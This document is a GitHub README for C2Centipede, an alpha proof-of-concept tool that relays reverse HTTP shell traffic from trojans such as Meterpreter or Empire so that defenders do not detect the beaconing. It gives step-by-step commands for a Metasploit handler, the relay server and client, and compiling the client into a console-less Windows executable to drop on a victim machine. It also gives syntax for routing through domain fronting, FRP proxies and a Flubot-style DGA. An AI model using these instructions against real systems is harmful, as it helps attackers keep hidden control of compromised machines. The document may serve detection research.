 # C2Centipede (alpha)

## What is C2Centipede?
C2Centipede is a Proof of Concept proxy for reverse HTTP shell tools (like metasploit or empire) to evade beaconing detection by 

1)reducing the beaconing 

2)route the C2 communications from the trojan through different servers, currently using FRP reverse proxies or multiple Domain Fronts.


## How does it work?

There are two basic components of C2Centipede, client and server. The client is executed in the victim machine along the trojan (e.g. reverse http meterpreter) and receives the trojan's requests. The client will be in charge of faking answers to the trojan to keep it alive and choosing the route the trojan beacon should follow. The original HTTP request from the trojan is wrapped and encrypted using a Fernet symmetric key.


The server component receives the requests from the c2centipede client, decrypts them and sends them to the handler (Metasploit http handler, empire, etc), sending the answer back to the c2centipede client, along with it's own commands that affect the behaviour of the client. The operator can modify the behaviour of the client on the fly, for example by decreasing or increasing the number of fake answers to the trojan, or adding new routes the client can use to communicate with the server. The control data for C2Centipede is piggybacked on the trojans requests, so there is no additional "noise" in the network.


Additionally there is a GUI for the operator.


## Setup
```
git clone https://github.com/deepsight/C2Centipede
cd C2Centipede
#install required libraries, TODO make requirements.txt
git clone https://github.com/fatedier/frp
```

## Sample commands

### On the server
The server uses python3

```
1) Run your handler /msfconsole -x "use exploit/multi/handler;set payload python/meterpreter_reverse_http;set exitonsession false; set lport 8888; set lhost 0.0.0.0; run -j
You can use any reverse HTTP payload, not just python.

2)Generate your meterpreter (with msfvenom), empire or other trojan pointing to localhost and the port specified on the -p argument you will use in the c2centipede client (in this case 2233)

3) python3 c2c_server.py -p 9093 -d 127.0.0.1:8888 -a lalala:lelele -b -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port to listen to
-d destination of the packages (This would be your MSF or Empire handler address)
-a authentication for the c2centipede server, the operator needs to know these to send commands to the c2centipede server.
-b beep (for debugging, you can listen to the beacons of your trojan)
-f Fernet key, symmetric shared with the client. (if not specified it will generate a new one)

4)Set your RFP proxies and/or CDNs.

5)To tests FRP servers, add them to valid_frp_tcp_clean_unique.txt
```

### On the victim machine
The client uses python2 because _reasons_
```
1) python2 c2c_client.py -p 2233 -b 127.0.0.1 -s 127.0.0.1:9093 -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port where the client listens to
-b bind to this interface
-s server addresses (direct connection, frp proxy or domain fronted host), you can add as many as you wish (or use -t to use a textfile with newline separated server addresses)
-f fernet symmetric key as specified on the server component.

Optionally, you can compile the client for windows using pyinstaller
wine pyinstaller.exe --onefile --noconsole c2c_client.py

2)Drop the c2centipede client script or executable and the trojan

3)Run the trojan
```

## Supported C2 routes

```
The C2 communication can be routed through many hosts. They can be setup when executing the c2centipede client with the -s or -t flags. 

Direct or connections through HTTP proxies (like FRP) can be specified as ip:port e.g. "-s 123.123.123.123:2222 222.333.45.23:80"

Domain fronting can be specified in the following format: -s fronted{hightrustdomain.com{evilhost.yourcdnprovider.com fronted{anotherdomain.com{evilhost.yourcdnprovider.com fronted{anotherhightrustdomain.com{evilhost.anothercdn.com

Flubot DGA can be used to bootstrap your C2 connection, the syntax is flubot{seed{numberofdomains{port
This is based on this great post: https://securityblog.switch.ch/2021/06/19/android-flubot-enters-switzerland/
```

## TODO

Treat this as alpha quality code, it's meant to be a PoC for beaconing evasion.
I have tested very basic functionality for doing C2 comms through webdav, so this might come later.
